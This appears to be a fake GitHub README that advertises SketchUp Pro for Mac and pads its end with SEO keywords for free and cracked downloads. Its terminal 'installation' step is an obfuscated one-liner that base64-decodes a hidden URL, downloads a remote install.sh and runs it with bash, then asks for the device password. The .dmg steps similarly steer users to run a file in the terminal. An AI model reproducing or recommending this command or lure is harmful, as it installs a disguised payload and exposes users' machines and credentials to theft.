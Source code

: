 # SketchUp Pro for Mac – 3D Modeling Software

![SketchUp Mac Screenshot](https://sketchupguru.com/wp-content/uploads/2023/02/How-to-Download-and-Install-SketchUp-on-Mac.webp)  

---

## 📥 Installation

[![⬇️ Download Now](https://img.shields.io/badge/SketchUp%20%20Pro-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/sketchup)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🔎 What is SketchUp Pro for Mac?

**SketchUp Pro** is a professional-grade **3D modeling application** designed for creating architectural, engineering, and interior design projects. On **Mac**, it brings the same powerful toolset as its Windows counterpart, tailored for macOS performance and design standards.

With its intuitive **push-pull modeling**, users can build 3D forms easily from 2D shapes. Whether you're conceptualizing a home design, crafting a detailed woodworking plan, or visualizing a landscape layout, SketchUp empowers your creative process with speed and flexibility.

On **macOS**, SketchUp Pro is optimized for **Apple Silicon (M1/M2/M3)** and works seamlessly with **macOS Monterey**, **Ventura**, and **Sonoma**. It supports external renderers, layout presentations, plugin extensions, and cloud collaboration through **Trimble Connect**.

SketchUp also includes tools like **LayOut** for detailed documentation, and **Style Builder** for custom visual styles. The **Extension Warehouse** lets users expand functionality with rendering, lighting, and export plugins.

Whether you’re a professional architect or a beginner hobbyist, **SketchUp for Mac** is a powerful companion in your 3D design workflow.

---

![SketchUp Interface Mac](https://sketchup.distek.ru/upload/resize_cache/webp/resources/general/description/sketchup-for-mac/images/largeinterfacenow.webp)

---

## 🚀 Features

- 🧱 Easy-to-use 3D modeling interface
- 📐 Precision tools for architectural modeling
- 🎨 Real-time rendering with plugin support
- 🗂️ Includes LayOut for 2D documentation
- 📥 Import/export formats: DWG, DXF, 3DS, OBJ, PDF
- 🔌 Supports hundreds of plugins and extensions
- ☁️ Trimble Connect cloud collaboration
- 💻 Optimized for **Apple Silicon (M1/M2/M3)**
- 🧭 Compatible with macOS Monterey, Ventura, and Sonoma

---

## 💬 Keywords

``sketch up mac``  
``sketchup for mac``  
``sketch up for mac``  
``sketchup macbook``  
``sketchup free mac``  
``sketch up download mac``  
``sketchup free download for mac``  
``sketchup osx``  
``download sketch up mac``  
``mac sketch up``  
``mac sketchup download``  
``sketch up for mac free``  
``sketch up free for mac``  
``sketch up free mac``  
``sketch up mac free``  
``sketchup for free mac``  
``sketchup mac os x``  
``sketchup pro mac``  
``sketchup mac download``  
``sketchup for macbook pro``  
``google sketchup mac``  
``sketchup rendering for mac``  
``sketchup for macbook air``  
``sketchup mac m1``  
``sketchup mac os``  
``sketchup pro download mac``  
``sketch up on mac``  
``sketch up pro for mac``  
``sketchup on macbook pro``  
``sketch up mac download``  
``sketch up mac os``  
``sketch up mac torrent``  
``sketchup mac os download``  

---
